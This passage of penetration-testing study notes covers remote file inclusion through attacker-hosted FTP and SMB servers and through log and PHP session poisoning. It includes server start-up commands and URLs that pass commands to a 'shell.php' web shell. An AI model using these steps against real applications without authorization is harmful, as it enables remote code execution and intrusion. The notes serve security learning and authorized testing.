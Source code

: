 Using python `pyftpdlib` library to start a simple FTP server.
- Useful if the HTTP ports are blocked, or if there is a web application firewall that combats RFI by blacklisting the `http://` string.

```bash
sudo python -m pyftpdlib -p 21
```
- To exploit it and run commands, we can enter this URL to reach the `shell.php` file and pass the command using the `cmd` query parameter: `ftp://machine.ip/shell.php?cmd=id`.

Since FTP requires authentication, it will first try running this command as the anonymous user.
- If that doesn't work, then we can pass credentials as follows:
```url
ftp://user:pass@machine.ip/shell.php&cmd=id
```
- The `cmd` is placed after a `&` not `?` since this entire URL is a query parameter.

###### [[Server Message Block (SMB)]]

Using python `impacket-smbserver` library to start an SMB server.
- Allows anonymous authentication.

```bash
impacket-smbserver -smb2support share $(pwd)
```
- To include a file, we need to use windows path format: `\\machine.ip\share\shell.php`.

> Will most likely work only if we are on the same network as the application, as accessing remote SMB servers is blocked by default.

---
### Log Poisoning

This technique of executing the file inclusion attack is conducted by writing PHP code into a user controllable field, and this user controlled input gets written to a **log file**.
- This log file is then included, and the PHP code is executed.

> The web application needs to have *read* permissions over the log files for this to work.

Log files are large, and loading these files can take time and resources, which can be harmful in production environments. **TAKE CARE**.

##### PHP Session Poisoning

PHP applications use the `PHPSESSID` [[Cookies]] which holds user related data to keep track of user information.
- This data is saved in `session` files in the back-end, such as `/var/lib/php/sessions` directory on Linux, and `C:\Windows\Temp\` directory on windows.

> The name of the user specific file is the same as the `PHPSESSID` cookie name with the `sess_` prefix.

To perform the attack, we check out the cookies and see if the cookie exists.
- If it does, we try to include the file with the name of the cookie after the following string: `/var/lib/php/sessions/sess_COOKIENAME`.

Including the file with this URL, we can check its content to see if it has anything we can control.
- Sometimes, it has a `page` variable that is set to the value of page the user visited, or for example, the value of another query parameter that decides which page the user visits.
